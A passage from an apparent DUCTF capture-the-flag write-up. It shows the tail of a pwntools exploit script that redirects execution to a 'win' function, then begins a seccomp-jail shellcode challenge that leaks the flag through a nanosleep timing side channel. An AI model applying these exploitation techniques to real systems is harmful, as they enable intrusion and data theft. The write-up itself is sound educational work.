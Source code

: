 ```python
elf.address = int(p.recvline(), 16) - 0x11bd
win = elf.sym['win']

payload = p32(win) + b'a'*12 #+ b'\x84'
p.sendafter(b'Your turn: ', payload)

p.interactive()
# DUCTF{all_1t_t4k3s_is_0n3!}
```



# [pwn/easy 166] great escape

```sh
$ seccomp-tools dump ./jail
what is your escape plan?
 > cc
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0009
 0006: 0x15 0x02 0x00 0x00000023  if (A == nanosleep) goto 0009
 0007: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0009
 0008: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

The program executes our shellcode that is limited to 4 syscalls `read`, `nanosleep`, `exit` and `openat`, and the challenge provides flag path: `/chal/flag.txt`.

Knowing the absolute path, we can open flag with `openat` and `read` the content of it into memory. We can't print the flag normally, but we can make use of `nanosleep` to leak it the more bizarre way. In particular, we can pass each byte of the flag to `nanosleep`  as parameter and count the sleep time to get value. 

```c
int nanosleep(const struct timespec *req,
                     struct timespec *_Nullable rem);
```

`nanosleep` is `sleep` with nanosecond precision. `rem` param can be `null`. `timespec` struct is as following:

```c
              struct timespec {
                  time_t  tv_sec;  /* Seconds */	
                  long    tv_nsec; /* Nanoseconds */
              };
```
